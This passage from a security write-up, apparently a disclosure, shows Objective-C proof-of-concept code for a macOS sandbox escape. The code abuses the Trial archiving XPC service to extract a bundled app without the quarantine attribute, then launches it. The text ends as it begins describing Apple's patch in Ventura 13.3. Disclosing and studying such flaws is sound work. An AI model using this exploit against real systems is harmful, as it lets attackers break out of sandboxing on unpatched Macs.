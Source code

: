 ```
    [connection resume];
    // archive file handle
    NSURL *payload = [[NSBundle mainBundle] URLForResource:@"sbx.app" withExtension:@"zip"];
    NSFileHandle *archiveHandle = [NSFileHandle fileHandleForReadingAtPath:[payload path]];
    // destination directory
    NSString *dstPath = [NSHomeDirectory() stringByAppendingPathComponent:@"Library/Trial/v0/AssetStore"];
    [[NSFileManager defaultManager]createDirectoryAtPath:dstPath withIntermediateDirectories:YES attributes:0 error:0];
    NSURL *dstURL = [NSURL fileURLWithPath:dstPath];
    // destination directory sandbox extension
    typedef const char *(*PFN)(const char *extension_class, const char *path, uint32_t flags);
    void *h = dlopen("/usr/lib/system/libsystem_sandbox.dylib", 2);
    PFN sandbox_extension_issue_file = (PFN)dlsym(h, "sandbox_extension_issue_file");
    const char *token = sandbox_extension_issue_file("com.apple.app-sandbox.read-write", [dstPath UTF8String], 2);
    // fire the hole, it will extract the archive file bundle to this App container, without the quarantine extended attribute
    __block dispatch_semaphore_t done = dispatch_semaphore_create(0);
    [connection.remoteObjectProxy extractArchiveFromHandle:archiveHandle withArchiveName:@"exploit" toDirectory:dstURL destDirExtension:[NSString stringWithUTF8String:token] postExtractionCompression:0 completion:^(unsigned char ret) {
        NSLog(@"ret:%d", ret);
        dispatch_semaphore_signal(done);
    }];
    dispatch_semaphore_wait(done, DISPATCH_TIME_FOREVER);
    // However, this extraction will drop the executable (X) permission. Create a symlink as a workaround
    NSString *target = [dstPath stringByAppendingPathComponent:@"sbx.app/Contents/MacOS/Automator Application Stub"];
    symlink("/System/Library/CoreServices/Automator Application Stub.app/Contents/MacOS/Automator Application Stub", [target UTF8String]);
    NSString *openCmd = [NSString stringWithFormat:@"open %@/sbx.app", dstPath];
    system([openCmd UTF8String]);
}
```

Demo link: https://youtu.be/VbqGbxmSLoA

### The patch

Apple addressed the vulnerability in macOS Ventura 13.3 by checking the entitlement “**com.apple.TrialArchivingService.internal**” from the incoming XPC client:
